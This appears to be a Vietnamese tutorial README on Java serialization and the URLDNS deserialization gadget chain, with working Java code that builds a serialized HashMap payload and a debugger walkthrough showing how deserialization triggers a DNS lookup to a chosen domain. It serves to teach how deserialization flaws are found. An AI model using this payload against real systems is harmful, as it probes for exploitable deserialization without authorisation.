 ## Giới thiệu về Serialize và Deserialize:

  **Serialize** là quá trình chuyển đổi từ một object sang dạng chuỗi byte và quá trình chuyển ngược lại từ chuỗi byte sang một object gọi là **Deserialize**.
  
  ví dụ mình tạo một object tên là SampleObject, object có property message và constructor print message:
  
  ```java
  import java.io.Serializable;

  public class SampleObject implements Serializable {
    private String message;
    public static void SampleOject(String mesage){
        System.out.print(mesage);
    }

    public String getMessage() {
        return message;
    }

    public void setMessage(String message) {
        this.message = message;
    }
}
```
set message là `hello_world` sau đó **serialize**:

```java
  FileOutputStream fileOutputStream = new FileOutputStream("path_to_file\\demo.ser");
  ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
  SampleObject demo = new SampleObject();
  demo.setMessage("hello_world\n");
  objectOutputStream.writeObject(demo);
  objectOutputStream.flush();
  objectOutputStream.close();
```
![](https://github.com/NgoXuanHao/Deserialize-Java/blob/main/URLDNS/image/demo_serialize.png)

và sau khi **deserialize** ta có thể nhận được object ban đầu và cả giá trị property message

```java
   ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("path_to_file\\demo.ser"));
   SampleObject sampleObject = (SampleObject) objectInputStream.readObject();
   String newMessage = sampleObject.getMessage();
   System.out.printf(newMessage);
```
![](https://github.com/NgoXuanHao/Deserialize-Java/blob/main/URLDNS/image/demo_deserialize.png)

java deserialize là lỗi lợi dụng những method deserialize object mà ta có thể control được sau đó tìm cách chain đến method có thể thực hiện chức năng mà mình muốn, thường là request DNS hoặc RCE.

## URLDNS

Đây là gadget chain với mục đích cuối là tạo một request DNS đến domain bất kỳ.

`Hashmap` là tập hợp của cặp `key` và `value`, trong trường hợp này cặp `key-value` là object URL và url mình muốn request dns tới.
```java
 HashMap hashMap = new HashMap();
 URL url1 = new URL(null, url, urlStreamHandler);
 hashMap.put(url1, url);
 ```
 vì trong `java/net/URL.java#hashCode()` có đoạn check thử hashmap có được cache chưa, nếu rồi thì sẽ không đi tiếp nữa mà return giá trị luôn:
 ```java 
     public synchronized int hashCode() {
        if (hashCode != -1)
            return hashCode;

        hashCode = handler.hashCode(this);
        return hashCode;
    }
 ```
 Để đi tiếp thì hashCode phải bằng -1 do đó ta cần dùng reflection để gán giá trị cho hashCode.
 Cú pháp như sau, đầu tiên ta cần lấy hashcode từ URL class:
 ```java
 Field field = URL.class.getDeclaredField("hashCode");
 ```
 Tiếp theo đó xét quyền truy cập này vì trong class URL này được khai báo dạng private:
 ```java
 field.setAccessible(true);
 ```
 cuối cùng là set giá trị cho hashCode trong object url mình tạo
 ```java
 field.set(url1, -1);
 ```
 ### Debug
 Đây là code tạo payload mình làm dựa theo ysoserial
 ```java
  URLStreamHandler urlStreamHandler = new URLStreamHandler() {
     @Override
     protected URLConnection openConnection(URL u) throws IOException {
         return null;
     }
 };
 HashMap hashMap = new HashMap();
 URL url1 = new URL(null, url, urlStreamHandler);
 hashMap.put(url1, url);
 Field field = URL.class.getDeclaredField("hashCode");
 field.setAccessible(true);
 field.set(url1, -1);

 FileOutputStream fileOutputStream = new FileOutputStream("path_to_file\\test2.ser");
 ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
 objectOutputStream.writeObject(hashMap);
 objectOutputStream.flush();
 objectOutputStream.close();
 ```                   
 còn đây là đoạn code đọc object:
 ```java 
   ObjectInputStream payload = new ObjectInputStream(new FileInputStream("path_to_file\\test2.ser"));
  HashMap demoHashMap = (HashMap) payload.readObject();
 ```
 Bắt đầu đặt breakpoint từ method readObject. 
 Vì HashMap lưu trữ căp key/value ở dạng Object, do đó khi deserialize thì HashMap dùng method ReadObject để tạo lại key/value từ stream sang object. 
 Ta thấy sau khi readObject sẽ gọi tới `putVal()` nằm trong method `HashMap.readObject()`
 ![](https://github.com/NgoXuanHao/Deserialize-Java/blob/main/URLDNS/image/putVal_readObject.png)
 Tiếp theo HashMap.putVal() sẽ call tới HashMap.hash(), ta thấy key ở đây được nhận dưới dạng là một object do đó từ đây ta có thể lợi dụng để đi tới class khác.
 ![](https://github.com/NgoXuanHao/Deserialize-Java/blob/main/URLDNS/image/HashMap_hash.png)
 Tại đây method này gọi tới method URL.hashCode với object key vừa được truyền vào.
 ![](https://github.com/NgoXuanHao/Deserialize-Java/blob/main/URLDNS/image/URL_hashcode.png)
 Tại đây ta có thể thấy property hashCode đã được gán -1 như đã nói ở trên. Từ đây gọi tới URLStreamHandler.hashCode()
 ![](https://github.com/NgoXuanHao/Deserialize-Java/blob/main/URLDNS/image/URLStreamHandler.hashCode.png)
 và method này sẽ gọi tới getHostAddress tại đây sẽ resolve dns domain mà ta truyền vào.
 ![](https://github.com/NgoXuanHao/Deserialize-Java/blob/main/URLDNS/image/result.png)
 
 
 
